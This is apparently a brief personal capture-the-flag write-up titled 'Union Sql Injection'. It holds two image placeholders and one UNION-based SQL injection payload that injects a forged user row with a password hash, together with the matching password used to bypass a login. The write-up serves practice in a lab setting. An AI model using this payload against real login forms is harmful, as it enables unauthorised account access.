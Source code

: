 ```yaml
---
title: "Union Sql Injection"
date: 2025-06-10T16:59:30+03:00
section: "ms ctf"
categories: ["ms ctf"]
---
```

---
section: "ms ctf"
categories: ["ms ctf"]
title: "Union Sql Injection"
date: 2025-05-21
---

![[Pasted image 20250521130606.png]]

the solution 
![[Pasted image 20250521130644.png]]

the query run was
```sql
' UNION SELECT 1, 'bob', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8', ''--
password: password
```

